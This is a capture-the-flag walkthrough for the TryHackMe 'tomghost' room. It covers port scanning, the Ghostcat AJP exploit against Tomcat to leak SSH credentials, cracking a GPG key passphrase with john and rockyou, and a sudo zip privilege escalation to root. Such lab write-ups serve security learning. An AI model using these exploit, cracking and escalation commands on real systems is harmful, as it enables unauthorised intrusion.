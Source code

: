 # TryHackMe-tomghost-CTF

Writeup for CTF tomghost avaiable on https://www.tryhackme.com (https://www.tryhackme.com/room/tomghost)

The challange is to find the flags contained user.txt and root.txt

First of all i will set bash variable for my ip and for victims ip so I will call them $V_IP (victims) $M_IP (my tryhackme vpn IP).

I will nmap scan the machine (I'm root so the scan would be syn scan by default) saving the output in nmap_syn_def

`nmap -A $V_IP -oN nmap_syn_def`

Output is:

> 22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
> 
> | ssh-hostkey: 
> |   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
> |   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
> |_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
> 
> 53/tcp   open  tcpwrapped
> 
> 8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
> | ajp-methods: 
> |_  Supported methods: GET HEAD POST OPTIONS
> 
> 8080/tcp open  http       Apache Tomcat 9.0.30
> |_http-favicon: Apache Tomcat
> |_http-open-proxy: Proxy might be redirecting requests
> |_http-title: Apache Tomcat/9.0.30

I will visit $V_IP:8080 and try to find hidden paths with dirb, but neither I found somethin useful neither I could access tomcat manager paths

On the web I found that "ghostcat" is vulnerability for Tomcat (here for details -> https://www.chaitin.cn/en/ghostcat)

using searchsploit i find a python script exploting this vulnerability, it requires victim ip and ajp tomcat port as parameters, I copied it in my working directory and ran it:

`python 48143.py -p 8009 $V_IP`

It gives back some html containg some credentials:

...
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfu*k:<password>
  </description>
...

 Those are valid ssh credentials for $V_IP so I'll use them to gain first access.
  
skyfu*k home directory contains two files: "credential.pgp" "tryhackme.asc", I will inspect them later, first step I use find to locate "user.txt" as I'm expecting to need no more exploitation to find it. In fact it's in user merlin's home.
  
Now it's time to inspect the other files, pgp is actually a gpg encrypted file and I guess tryhackme.asc is the secret key that you need to use for decryption.

I will import it:
  
`gpg --import tryhackme.asc`
  
and try to decpryt credential file:
  
`gpg --decpryt credentials.pgp`
  
output is:
  
>You need a passphrase to unlock the secret key for
>user: "tryhackme <stuxnet@tryhackme.com>"
>1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)
>
>gpg: gpg-agent is not available in this session
>Enter passphrase: 
  
I return to my host shell in order to get the secret key via scp:
  
`scp skyfuc*k$V_IP:/home/skyfu*k/tryhackme.asc .`
  
I will use gpg2john to obtain a john crackable file and crack it using rockyou.txt wordlist
  
`gpg2john tryhackme.asc > pgphash`
 
`john pgphash --wordlist=/usr/share/wordlist/rockyou.txt`
  
 It cracks the passphrase for user tryhackme, I'll go back to victims machine and use it to gpg decrypt credental.pgp, I've obtained the password for user merlin.
  
 I will now ssh into the victims machine using merlin's credentials.
  
 I will look at merlin sudo's permissions:
 
 `sudo -l -l`
  
  output is:
  
>  Matching Defaults entries for merlin on ubuntu:
 >   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

>User merlin may run the following commands on ubuntu:
 >   (root : root) NOPASSWD: /usr/bin/zip
  
  I'll go to GTFOBins to see if I can use it to do some escalation (https://gtfobins.github.io/gtfobins/zip/#sudo)

I'll use what I found:
  
`sudo zip $(mktemp -u) /etc/hosts -T -TT 'sh #'`
`whoami`
> root
  
Now I'm able to cat /root/root.txtand we're done
